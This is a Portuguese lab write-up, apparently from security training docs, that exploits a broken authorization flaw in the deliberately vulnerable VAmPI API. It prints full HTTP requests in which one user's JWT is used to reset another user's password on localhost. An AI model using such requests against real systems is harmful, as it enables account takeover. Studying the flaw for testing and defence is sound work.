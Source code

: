```yaml
---
sidebar_position: 2
---
```


# Exploração
---
Tendo em mente os questionamentos levantados ao final da sessão anterior, é possível realizar os testes de segurança a fim de descobrir onde a vulnerabilidade pode ser explorada.

## Autenticação na aplicação
Para que um usuário altere sua senha, é necessário que o mesmo se autentique na aplicação, para isso basta utilizar a rota `/users/v1/login` usando uma requisição do tipo `POST` enviando as informações de login no body da requisição.

```python title="Request de login na aplicação"
POST /users/v1/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 8fda313b-89ef-4bd5-a63a-fd5061565533
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 56

{
    "username": "jordan",
    "password": "password"
}
```
Na response, um token JWT é enviado, é através dele que a autenticação será realizada em todas as requisições futuras.

```python title="Response de login na aplicação"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 225
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 02:44:46 GMT

{
    "auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
    eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
    VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U",
    "message": "Successfully logged in.",
    "status": "success"}
```

## Alteração de senha usando a rota `/users/v1/{username}/password`
Antes de realizar a alteração de senha, será feita uma checagem no banco de dados qual é a senha utilizada pelo usuário **jordan**.

```json title="Dados do jordan antes da alteração da senha"
    {
        "admin": false,
        "email": "jjga.snf19@uea.edu.br",
        "password": "password",
        "username": "jordan"
    }
```
A senha que o **jordan** utiliza antes da alteração é *password*.

Agora com o usuário logado na aplicação, foi enviado através do PostMan a requisição do tipo `PUT` legítima na rota usada para alteração de senha, sendo interceptada pelo Burp para análise posterior.

```python title="Request legítima de alteração de senha"
PUT /users/v1/jordan/password HTTP/1.1
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 653000d0-74dc-4293-a8bc-1f6a9dad3b1f
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 33

{
    "password": "newpassword"
}
```

A resposta recebida foi uma confirmação de que a alteração foi realizada com sucesso.

```json
HTTP/1.0 204 NO CONTENT
Content-Type: application/json
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 02:58:00 GMT
```
E, por fim, checando no banco de dados para confirmar que a alteração foi replicada para o usuário.

```json title="Dados do jordan após a alteração da senha"
   {
      "admin": false, 
      "email": "jjga.snf19@uea.edu.br", 
      "password": "newpassword", 
      "username": "jordan"
    }
```

## Vulnerabilidade na rota `/users/v1/{username}/password`
Para identificar a vulnerabilidade, as perguntas apresentadas pelo tópico anterior são o suficiente. Mas, uma delas é a mais interessante para esse momento.
- *Funções disponíveis para um grupo de usuários podem ser utilizadas por outro grupo (sendo necessário descobrir apenas o endpoint da API)?*

Tendo essa pergunta em mente, é hora de checar se um usuário poderia alterar a senha de outro usuário. Caso o token JWT não seja usado para confirmar a identidade do usuário, será possível alterar senhas de outros usuários.

No banco de dados existe um usuário chamado `name1`, que será a vítima do teste de alteração de senha.

```json title="Dados da vítima antes do ataque"
    {
      "admin": false, 
      "email": "mail1@mail.com", 
      "password": "pass1", 
      "username": "name1"
    }
```
Usando o Burp, será feita uma nova requisição utilizando o token JWT do **jordan**, porém, com o nome de usuário do **name1** com a nova senha **"hackeado!"**.

```python title="Request maliciosa usando o Burp"
PUT /users/v1/name1/password HTTP/1.1
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NjQ3Mzg2ODYsImlhdCI6MTY2NDY3ODY4Niwic3ViIjoiam9yZGFuIn0.
VrScPrN9cR0LMy7v7_YuGC0Yo3WR2KoCtoQZU4yAN3U
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 653000d0-74dc-4293-a8bc-1f6a9dad3b1f
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 31

{
    "password": "hackeado!"
}
```

A resposta do VAmPI indica que a senha foi alterada com sucesso.

```python title="Response maliciosa"
HTTP/1.0 204 NO CONTENT
Content-Type: application/json
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sun, 02 Oct 2022 03:36:27 GMT
```
Para confirmar, será feita a checagem das informações do usuário **name1** no banco de dados da aplicação.

```json title="Dados da vítima após o ataque"
    {
      "admin": false, 
      "email": "mail1@mail.com", 
      "password": "hackeado!", 
      "username": "name1"
    }
```

Isso demonstra que a aplicação está vulnerável e que, provavelmente, está utilizando apenas o nome de usuário como forma de prova de identidade.

O JWT está sendo subutilizado, sendo exclusivamente uma forma de garantir que somente usuários logados na aplicação façam a alteração da senha.

#### Mais referências disponíveis na [OWASP](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa8-injection.md).